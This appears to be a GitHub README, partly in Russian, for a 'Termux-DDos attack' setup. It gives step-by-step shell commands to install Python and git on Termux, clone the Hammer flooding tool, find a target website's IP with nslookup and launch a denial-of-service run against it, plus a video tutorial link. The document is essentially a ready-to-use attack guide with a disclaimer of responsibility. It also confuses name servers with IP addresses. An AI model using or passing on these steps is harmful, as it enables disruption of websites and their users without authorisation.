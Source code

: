 # Termux-DDos attack

[![forthebadge made-with-python](http://ForTheBadge.com/images/badges/made-with-python.svg)](https://www.python.org/)<br/><br/>

### Внимание
Автор данной стати не несет ответственности за любие последствия! 


## Usage:
```
$ apt update
$ apt upgrade
$ apt install python
$ apt install git
$ apt install dnsutils
$ git clone https://github.com/CruzTed/Hammer/

Hammer need the Name Server of a website which you want to attack...
To get the Name Server...just type
$ nslookup example.com
Note the IP Address of that Website

then
$ cd Hammer
$ python3 hammer.py -s [ip Address] -t 135
example:
$ python3 hammer.py -s 123.45.67.89 -t 135
```

## Video Tutorial:
Если ви что либо не понимаете то зайдите и посмотрите видео урок по установлених DDos-Attack

How to use Hammer [`Watch it`](http://www.youtube.com/watch?v=HVbRUhX2EPo)

